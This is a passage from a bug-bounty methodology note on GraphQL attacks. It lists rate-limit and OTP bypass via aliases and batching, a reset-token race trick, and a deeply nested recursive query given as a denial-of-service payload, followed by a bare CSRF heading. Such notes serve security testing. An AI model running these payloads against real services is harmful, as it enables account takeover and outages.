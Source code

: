 1. Bypassing rate limiting on Login, OTP using [Aliases](https://portswigger.net/web-security/graphql#bypassing-rate-limiting-using-aliases)/[GraphQL Batching attack](https://lab.wallarm.com/graphql-batching-attack/)
2. Send same reset password token to 2 emails (similar to race condition) using GraphQL Batching attack
3. If a query takes long time to complete, it used to overwhelm the server by using GraphQL Batching attack

## Denial of Service :: Deep Recursion Query Attack

5. If The application offers two types, which reference eachother (Type1 has Type2, and Type2 has Type1), it recursive query to be executed successfully.

[Click here to show/hide image](#)

![Hidden Image](https://github.com/0xGLSS/Bug-Bounty-Methodology/assets/85647797/cc9686ca-662c-4327-95c6-e2e47ceca255)
'

    query {
      pastes {
        owner {
          pastes {
            owner {
              pastes {
                owner {
                  pastes {
                    owner {
                      pastes {
                        owner {
                          pastes {
                            owner {
                              name
                            }
                          }
                        }
                      }
                    }
                  }
                }
              }
            }
          }
        }
      }
    }
> [!NOTE]
> if a depth check is implemented it should prevent malicious queries from going through.

    



5. CSRF over Graphql
6. 
